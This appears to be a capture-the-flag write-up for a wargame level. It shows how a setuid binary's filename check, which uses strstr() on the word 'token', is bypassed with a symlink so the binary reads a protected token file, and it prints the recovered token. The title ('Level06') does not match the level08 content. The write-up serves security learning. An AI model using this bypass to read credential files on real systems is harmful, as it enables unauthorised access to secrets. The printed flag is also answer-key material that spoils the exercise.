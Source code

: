 # Level06

## Context
Content of `/home/user/level08` :
```
total 16
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
```


## Resolution
 * Usage of `level08` shows us it will print content of a file
   ```
   ./level08 
   ./level08 [file to read]
   ```
 * We observe that the binary 'level08' has suid rights, and is part of the flag06 group.
We cant read ourselves the token file, but level08 executable can.
 * When given token as an argument we get the following error:
 ```
 ~/level08 ~/token 
You may not access '/home/user/level08/token'
 ```
 * We give it a look in gdb, and see it's because of use of strstr(), which looks for `token` in the file name. We put a screenshot in the ressources folder..
 * We can easily solve this. Let's create symbolic link with a different name and use it as argument !
 ```
 ln -s ~/token /var/crash/bg_du_89
~/level08 /var/crash/bg_du_89
quif5eloekouj29ke0vouxean
```
